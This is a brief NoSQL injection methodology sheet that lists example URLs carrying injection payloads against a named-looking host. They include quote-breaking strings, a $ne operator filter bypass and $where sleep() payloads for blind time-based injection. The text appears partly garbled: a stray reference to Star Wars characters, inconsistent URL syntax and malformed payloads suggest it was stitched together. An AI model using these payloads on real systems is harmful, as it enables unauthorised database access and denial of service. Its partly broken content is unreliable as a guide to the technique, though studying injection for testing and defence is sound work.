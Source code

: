 # NoSQL Injection methodology 

# NoSQL Union Query Injection

Let try to provoke an error by submitting a string accompanied by the single quote (') character, we will come across the following
```
https://demo-campass.obih.sg/name=TestUser1'
https://demo-campass.obih.sg/name=TestUser3
https://demo-campass.obih.sg/name=Testuser3', 'address': 'WestJurong
https://demo-campass.obih.sg/name=TestUser3',name:{$ne:'A'},address:'WestJurong
```





# Blind NoSQL Injection
Suppose that the database returned no results in the browser, regardless of us submitting an included Star Wars character or not. So, we are talking about a “blind” 
```
https://demo-campass.obih.sg/?name=A',$where: 'function(){sleep(20000);}'}
https://demo-campass.obih.sg/?name=A,$where: 'function(){sleep(20000);}'}
```
